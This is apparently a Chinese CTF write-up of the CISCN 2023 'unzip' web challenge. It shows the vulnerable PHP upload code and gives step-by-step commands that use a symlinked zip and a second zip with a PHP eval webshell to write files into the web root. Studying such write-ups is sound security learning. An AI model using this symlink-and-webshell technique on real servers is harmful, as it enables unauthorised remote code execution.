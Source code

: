 ```yaml
---
title: ciscn2023 web部分
date: 2024-11-25 20:28:13
permalink: /pages/0e353f/
author: 
  name: Cola
  link: https://the0n3.top
---
```

学习下ciscn2023 web部分

<!-- more -->

## unzip

复现地址[ctfshow ciscn2023 unzip](https://ctf.show/challenges#Unzip-4002)

尝试上传一个图片，上传接口返回处理的源码

![1](https://the0n3.top/medias/ciscn2023/1.png)

```php
<?php
# 获取文件MIME类型
$finfo = finfo_open(FILEINFO_MIME_TYPE);
# 验证MEME类型，判断文件类型是否为zip
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
# 移动到tmp目录，解压在临时目录里上传的zip文件
    exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
};
```

分析一下：

- 上传zip文件，解压到`/tmp`目录
- `unzip -o`参数，如果zip文件中存在同名文件，则覆盖

通过上面两步操作，可以和linux`软链接`结合起来实现以下功能：

- 创建一个软链接文件`link`，指向网站根目录`/var/www/html`，压缩上传
- 创建同名文件夹`link`，在文件夹里创建木马文件，在使在解压后能够覆盖`link`文件即`/var/www/html`目录，可以实现把木马解压到`/var/www/html`目录getshell

在第一步创建`link`软连接文件压缩后，**记得删除，否则无法创建同名文件夹`link`**，是否一定要同名文件夹？是，否则前面创建的软连接没有意义

演示：

在本地创建`link`软连接文件，指向`/var/www/html`目录

```bash
# 创建软连接
ln -s /var/www/html link
# 压缩
zip --symlinks link.zip link
```

![2](https://the0n3.top/medias/ciscn2023/2.png)

删除`link`软连接文件，创建同名文件夹`link`，在文件夹里创建`shell.php`文件

```bash
# 删除软连接
rm link
# 创建文件夹，进入
mkdir link
cd link
# 写个🐎子
echo '<?php highlight_file(__FILE__);eval($_GET[1]);phpinfo();?>' > shell.php
# 移动到上一级，压缩
zip -r link1.zip ./link/*
```

![3](https://the0n3.top/medias/ciscn2023/3.png)

现在，可以先上传`link.zip`文件，实现解压后的`link`链接到`/var/www/html`目录，再上传`link1.zip`文件，把写好的木马直接解压到`/var/www/html`目录getshell，如果木马文件名为`upload.php`,`index.php`应该还可以覆盖原文件

访问木马路径

![4](https://the0n3.top/medias/ciscn2023/4.png)



参考、致谢：

- [【CISCN2023】unzip 详解](https://www.cnblogs.com/gxngxngxn/p/17439035.html)
- [一个有趣的任意文件读取](https://xz.aliyun.com/t/2589?time__1311=n4%2Bxni0%3DG%3Di%3D0QAeGNDQTcqYqeGTZxY5vd4x)
- [ctfshow](https://ctf.show)